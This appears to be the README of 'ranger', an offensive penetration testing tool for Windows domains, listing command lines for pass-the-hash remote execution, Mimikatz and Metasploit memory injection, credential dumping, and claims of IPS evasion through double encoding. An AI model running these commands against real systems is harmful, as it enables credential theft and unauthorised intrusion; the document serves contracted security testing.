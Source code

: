 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.

##Command Execution:
###Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

###SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

###PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

###PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

###WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

###WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

###WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

###WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

###ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

###ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

###ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

###ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

###SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

###Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

###Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

###Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv

##Notes About Usage:
###Cred File Format:
*You can pass it a list of usernames and passwords or hashes in the following format in the same file:
```
username password
username LM:NTLM
username :NTLM
username **NO PASSWORD**:NTLM
PWDUMP
username PWDUMP domain
username password domain
username LM:NTLM domain
username :NTLM  domain
username **NO PASSWORD**:NTLM domain
PWDUMP domain
username PWDUMP domain
```

###Cred File Caveats:
* If you provide domain names in the file they will be used instead of the default WORKGROUP.  
* If you supply the domain name by command line (-d), it will infer that you want to ignore all the domain names in the file.

###Command Line Execution:
* If you do not want to use the file you can pass the details through command line directly.
* If you wish to supply hashes instead of passwords just pass them through the password argument.  
* If they are PWDUMP format and you supply no username it will pull the username out of the hash.  
* If you supply a username it will think that the same hash applies to a different user.

###Targets and Target Lists:
* You can provide a list of targets either by using a target list or through the target option.  
* You can supply multiple target list files by comma separating them and it will aggregate the data and remove duplicates and then exclude your IP address from the default interface or the interface you provide. 
* The tool accepts, CIDR notations, small ranges (192.168.195.1-100) or large ranges (192.168.194.1-192.163.1.1) or single IP addresses.  
* Again just comma separating them by command line or put them in a new line delimited file.

###Exclusions and Exclusion Lists:
* You can exclude targets using the exclude arguments as well, so if you do not touch a little Class C out of a Class A it will figure that out for you.

### Intrusion Protection Systems (IPS)
* Mimikatz, Downloader and Executor use PowerShell memory injection by calling other services and protocols.
* The commands are double encoded and bypass current IPS solutions (even next-gen) unless specifically tuned to catch these attacks.  
* ATEXEC is the only one that currently lands on disk and does not encode, I still have some rewriting to do still.

###NMAP
* The nmap XML feed is still in DRAFT and it is not functioning yet. 
